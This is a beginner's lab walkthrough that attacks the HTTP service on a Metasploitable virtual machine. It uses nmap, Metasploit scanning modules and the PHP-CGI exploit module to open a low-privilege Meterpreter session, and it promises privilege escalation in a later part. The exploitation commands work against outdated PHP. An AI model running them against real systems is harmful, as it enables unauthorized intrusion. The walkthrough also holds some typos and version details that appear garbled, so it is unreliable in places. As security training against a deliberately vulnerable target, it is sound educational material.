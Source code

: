 # Exploiting HTTP: A Practical Guide

## Introduction to Port 80 Vulnerabilities

This guide demonstrates how to identify and understand vulnerabilities in HTTP services running on Port 80. This knowledge is essential for system administrators and security professionals to better protect their systems.

## Why Focus on Port 80?

HTTP (Hypertext Transfer Protocol) running on Port 80 is a fundamental protocol for web services. We focus on it because:

* It's commonly used for web traffic
* It transmits data in plaintext, making it easier to analyze
* Many legacy systems still use HTTP instead of HTTPS
* It's often a starting point for security assessments

## Required Tools

1. Metasploitable - A purposely vulnerable virtual machine for security testing
3. Kali Linux - Security-focused Linux distribution containing:
   * Nmap - Network scanning and reconnaissance tool
   * Metasploit Framework (MSF)
4. Web browser - For verifying findings

## Technical Breakdown

### Step 1: Initial Reconnaissance with Nmap

Command used: `nmap -sV [IP] -p80`

![Initial Nmap Scan Results](base_nmap_scan.png)

Let's break down this command:
* `-sV`: Performs version detection of services
* `-p80`: Specifically targets port 80
* This scan identifies:
   * Running web server software
   * Version information
   * Operating system details

### Step 2: Service Enumeration
1. Launch Metasploit Framework
`msfconsole`

2. Search for HTTP information gathering module
`search http_version`
![HTTP Version](http.png)

4. Select the HTTP version scanner
`use auxiliary/scanner/http/http_version`

5. View available options
`show options`

6. Set your target IP
`set RHOSTS [TARGET_IP]`

7. Execute the scan
`run`
![RHOSTS Output](rhosts.png)

**Note: Run the scan to gather detailed information about what services and applications are running on this port. This reconnaissance step will help identify the specific technologies and versions being used by the target web server. Once we have this information, we can better understand what potential vulnerabilities or misconfigurations might exist and determine our next steps for enumeration.**

### Step 2a: Understand the Information Given
The codeblock that was returned to us provides a lot of information in one single line. Every single one of the returned components is important. In some way, they are all succeptible to manipulation and exploitation. I will provide a better breakdown of how. 

**Apache/2.28** - This is the Apache web server software, version 2.28
  * Web server vulnerabilities like remote code execution
    
**(Ubuntu)** - The server is running on Ubuntu Linux distribution
  * OS-level vulnerabilities (kernel exploits, privilege escalation)
    
**DAV/2** - WebDAV (Web Distributed Authoring and Versioning) version 2 is enabled, which allows file management over HTTP
  * File manipulation vulnerabilities, directory traversal
    
**Powered by PHP/5.2.4-2 ubuntu5.10** - The server is running PHP version 5.2.4-2, specifically the Ubuntu package version 5.10
  * Most critical due to age: Remote code execution, SQL injection, File inclusion vulnerabilities, Memory corruption issues

**Out of all these options - the PHP one seems the most attractive. It extremely only (15 years) and has multiple access points. There is also a lot of open source information that we can find online to help us accomplish this.**


### Step 3: Directory Structure Analysis
The next thing that we are going to do is ensure that PHP is running an possibly see some of the other protocols running on out Port 80 (HTTP).


A directory scanner (dir_scanner) actively probes for hidden directories and files on a web server, while HTTP version detection just identifies server software versions. Here's the reformatted command sequence:

1. Launch Metasploit Framework `msfconsole`

2. Search for directory scanning module `search dir_scanner`

3. View scanner options `show options`

4. Configure target `set RHOSTS [IP]`

5. Execute scan `run`
   ![Dir_Scanner Output](dir_scanner_output.png)

### Step 4: Clarify Objective
We want access to the backend of the HTTP server. Here is the visualization of the front-end.
![Metaploitable HTTP](http_homepage.png)
![PHP Admin Login](php_admin.png)


### Step 5: Exploit ;)

1. The most straighforward way to get more information is to search for an admin login page that may be explosed becuase developers left it open. there are a couple of naming conventions that this could falll under.
  * [IP or WebAddress]/info.php or [IP or WebAddress]/phpinfo.php

    These are the results: ![PHP Admin Page](PHPinfo.png)

2. Out of all the sections here, one stands out the most. The configuration file stands out the most because we may be able to gain access through it. After all, that's what it's intended for.
Let's load up Metasploitable and figure out how to find an exploit now.
  * Launch Metasploit Framework `msfconsole`
  * Find a Suitable Exploit `seach php_cgi`
    Bingo: ![PHP CGI Exploit Located](CGIInjection.png)
3. Let's load up and exploit.
  * `use 0`
  * `show options`
  * `set RHOSTS [IP]`
  * `exploit`
  * The Meterpreter session starting was an extremely good sign. Now we can pop a shell. But first let's verify we are in.

![Session Started with Exploit](Exploit.png)

Here you can see that we are a lower-level privileged user. There are also files available on the backend that we couldn't see at first when we went to the HTTP web page.
So we can consider this a success.

Next time we will unpack how to escalate our low-level privileges so that we can do more and fully own the system.
![Success](AccessGranted.png)
